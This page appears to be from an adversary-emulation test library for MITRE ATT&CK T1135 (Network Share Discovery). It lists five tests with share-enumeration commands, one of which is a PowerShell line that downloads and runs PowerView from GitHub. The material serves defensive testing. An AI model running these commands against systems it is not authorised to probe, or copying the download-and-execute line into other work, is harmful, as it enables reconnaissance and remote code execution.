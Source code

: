 # T1135 - Network Share Discovery
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1135)
<blockquote>Adversaries may look for folders and drives shared on remote systems as a means of identifying sources of information to gather as a precursor for Collection and to identify potential systems of interest for Lateral Movement. Networks often contain shared network drives and folders that enable users to access file directories on various systems across a network. 

File sharing over a Windows network occurs over the SMB protocol. (Citation: Wikipedia Shared Resource) (Citation: TechNet Shared Folder) [Net](https://attack.mitre.org/software/S0039) can be used to query a remote system for available shared drives using the <code>net view \\remotesystem</code> command. It can also be used to query shared drives on the local system using <code>net share</code>.

Cloud virtual networks may contain remote network shares or file storage services accessible to an adversary after they have obtained access to a system. For example, AWS, GCP, and Azure support creation of Network File System (NFS) shares and Server Message Block (SMB) shares that may be mapped on endpoint or cloud-based systems.(Citation: Amazon Creating an NFS File Share)(Citation: Google File servers on Compute Engine)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Network Share Discovery](#atomic-test-1---network-share-discovery)

- [Atomic Test #2 - Network Share Discovery command prompt](#atomic-test-2---network-share-discovery-command-prompt)

- [Atomic Test #3 - Network Share Discovery PowerShell](#atomic-test-3---network-share-discovery-powershell)

- [Atomic Test #4 - View available share drives](#atomic-test-4---view-available-share-drives)

- [Atomic Test #5 - Share Discovery with PowerView](#atomic-test-5---share-discovery-with-powerview)


<br/>

## Atomic Test #1 - Network Share Discovery
Network Share Discovery

**Supported Platforms:** macOS, Linux




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| computer_name | Computer name to find a mount on. | string | computer1|


#### Attack Commands: Run with `sh`! 


```sh
df -aH
smbutil view -g //#{computer_name}
showmount #{computer_name}
```






<br/>
<br/>

## Atomic Test #2 - Network Share Discovery command prompt
Network Share Discovery utilizing the command prompt. The computer name variable may need to be modified to point to a different host
Upon execution avalaible network shares will be displayed in the powershell session

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| computer_name | Computer name to find a mount on. | string | localhost|


#### Attack Commands: Run with `command_prompt`! 


```cmd
net view \\#{computer_name}
```






<br/>
<br/>

## Atomic Test #3 - Network Share Discovery PowerShell
Network Share Discovery utilizing PowerShell. The computer name variable may need to be modified to point to a different host
Upon execution, avalaible network shares will be displayed in the powershell session

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| computer_name | Computer name to find a mount on. | string | localhost|


#### Attack Commands: Run with `powershell`! 


```powershell
net view \\#{computer_name}
get-smbshare -Name #{computer_name}
```






<br/>
<br/>

## Atomic Test #4 - View available share drives
View information about all of the resources that are shared on the local computer Upon execution, avalaible share drives will be displayed in the powershell session
**Supported Platforms:** Windows





#### Attack Commands: Run with `command_prompt`! 


```cmd
net share
```






<br/>
<br/>

## Atomic Test #5 - Share Discovery with PowerView
Enumerate Domain Shares the current user has access. Upon execution, progress info about each share being scanned will be displayed.

**Supported Platforms:** Windows





#### Attack Commands: Run with `powershell`! 


```powershell
IEX (IWR 'https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/f94a5d298a1b4c5dfb1f30a246d9c73d13b22888/Recon/PowerView.ps1'); Find-DomainShare -CheckShareAccess -Verbose
```






<br/>
